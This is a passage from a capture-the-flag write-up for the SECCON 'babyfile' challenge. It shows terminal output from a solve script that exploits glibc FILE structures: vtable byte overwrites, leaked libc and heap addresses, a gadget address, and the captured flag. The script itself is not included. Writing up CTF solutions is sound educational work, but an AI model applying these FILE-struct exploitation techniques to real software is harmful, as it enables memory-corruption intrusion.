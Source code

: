 ```
root@CTF-ubuntu-s-1vcpu-1gb-intel-sgp1-01:~# python3 solv.py REMOTE I=1
[+] Opening connection to babyfile.seccon.games on port 3157: Done
Overwriting last vtable byte with = 0x88 to set fp.file->_IO_buf_base/end
Overwriting last vtable byte with = 0x60, to set all _IO_{read,write,buf,*} ptrs
Fixing vtable to its correct value
VTABLE PTR: 0x7f7b9041ef60
LIBC BASE : 0x7f7b90236000
HEAP BASE: 0x563ac6ddd000
FILE ADDR: 0x563ac6ddd2a0
GADGET EA: 0x7f7b90319b01
WRITE TO: 0x7f7b90424e48
[*] Switching to interactive mode
SECCON{r34d_4nd_wr173_4nywh3r3_w17h_f1l3_57ruc7ur3}
[*] Got EOF while reading in interactive
```

* Oh, also, we had troubles with our exploit timing out on remote, but we switched to a VPS in Singapore and then it worked.. :)

The full exploit for this challenge can be found in the [solve.py](solve.py) file.
